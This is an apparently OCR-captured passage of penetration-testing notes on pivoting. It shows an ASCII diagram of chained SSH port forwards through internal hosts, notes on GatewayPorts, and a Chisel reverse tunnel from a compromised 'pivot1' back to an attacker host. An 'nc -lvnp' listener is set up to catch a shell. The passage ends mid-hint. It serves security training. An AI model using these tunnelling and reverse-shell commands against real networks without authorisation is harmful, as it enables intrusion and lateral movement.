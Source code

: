```
│                                                                      │  │                                               │  │                                │  │                   │
│                                                                      │  │                                            22 │  │                                │  │                   │
│                                                                      │  │   ssh -L 1337:127.0.0.1:22 root@10.2.2.2 ----------► 10.2.2.2:22                  │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│                                                                      │  │   Listens 127.0.0.1:1337                      │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│                                                1337 over 10.1.1.1:22 │  │                           22 over 10.2.2.2:22 │  │                                │  │                   │
│ 10. ssh root@127.0.0.1 -p 9003 -------------------------------------------► 127.0.0.1:1337 ----------------------------------► 127.0.0.1:22                 │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │   ~C ssh> -L 9004:10.3.3.3:80  │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 11. Listens 127.0.0.1:9004                                           │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│                                                1337 over 10.1.1.1:22 │  │                           22 over 10.2.2.2:22 │  │                                │  │                   │
│ 12. curl http://127.0.0.1:9004/ ------------------------------------------► 127.0.0.1:1337 ----------------------------------► 127.0.0.1:22 ────────────────┼──┼─► 10.3.3.3:80     │
│                                                                      │  │                                               │  │                                │  │                   │
└──────────────────────────────────────────────────────────────────────┘  └───────────────────────────────────────────────┘  └────────────────────────────────┘  └───────────────────┘
```

Notes:

* `1` For SSH server to listen at `0.0.0.0` instead of `127.0.0.1`, the `GatewayPorts yes` must be set in `/etc/ssh/sshd_config`.
* `1` With SSH (or Chisel, for example) **server** running on the Attacker the same can be achieved by doing **local** port forwarding instead of **remote**.

```
snovvcrash@attacker:~$ ./chisel server -p 8000
root@pivot1:# nohup ./chisel client 10.10.13.37:8000 443:127.0.0.1:9001 &
root@pivot1:# netstat -tulpan | grep 443
tcp6       0      0 :::443                 :::*                    LISTEN      18406/./chisel
snovvcrash@attacker:~$ rlwrap nc -lvnp 9001
```

{% hint style="info" %}
Let's say we're doing a Remote Port Forwarding via SSH (with `GatewayPorts yes`) through ProxyChains like this:
